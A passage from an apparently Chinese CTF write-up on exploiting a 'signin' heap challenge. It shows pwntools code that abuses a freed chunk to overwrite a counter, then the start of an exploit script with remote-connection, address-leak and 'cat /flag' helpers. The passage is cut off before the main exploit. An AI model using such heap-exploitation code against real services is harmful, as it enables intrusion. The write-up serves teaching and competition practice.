 而key的位置，恰好是cnt的位置，于是可以做到多次edit完成利用。

在运行以下代码后，可以看到，`cnt`已经变成了`-1`。

```
creat(sh,0)
delete(sh,0)
edit(sh,0,p64(0x4040B0))
```

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-24-023632.png)

接下来运行以下代码后，可以看到，`cnt`已经被重置为了`0`。

```
creat(sh,1)
creat(sh,2)
```

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-24-023907.png)

### <a class="reference-link" name="Final%20Exploit%E2%80%94%E2%80%94%E9%9D%9E%E9%A2%84%E6%9C%9F"></a>Final Exploit——非预期

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

signin=ELF('./signin', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./signin")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)
```